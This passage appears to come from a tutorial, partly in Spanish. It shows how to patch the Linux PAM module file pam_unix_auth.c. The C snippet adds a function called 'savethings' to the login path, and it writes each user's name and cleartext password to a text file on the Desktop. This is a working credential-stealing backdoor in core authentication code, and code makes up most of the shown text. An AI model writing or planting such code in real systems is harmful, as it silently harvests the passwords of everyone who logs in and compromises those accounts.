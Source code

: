 After this, whe can modify the file `modules/pam_unix/pam_unix_auth.c` in my case i'm going to create a file in the Desktop with the credential in clear text, for this i'm going to create a function and add to the login process.
<br>

 ```c
         D(("user=%s, password=[%s]", name, p));
        retval = _unix_verify_password(pamh, name, p, ctrl);
        //llamada a la funcion creada
        savethings("/home/RUTA/Escritorio/pass.txt",name, p);
        name = p = NULL;


        AUTH_RETURN;
}


/*
Esta funcion guardará las credenciales en un archivo el archivo
 */

void savethings (const char* filename, const char* nombre, const char* passworr) {
    // Abre el archivo para escritura
    FILE *file = fopen(filename, "a");

    // Verifica si el archivo se abrió correctamente
    if (file == NULL) {
        perror("Error al abrir el archivo");
        return;
    }

    // Escribe el valor de la variable en el archivo
    fprintf(file, "Usuario: %s\nPassowrd:%s\n", nombre,passworr);

    // Cierra el archivo
    fclose(file);
}
```

<p align="center">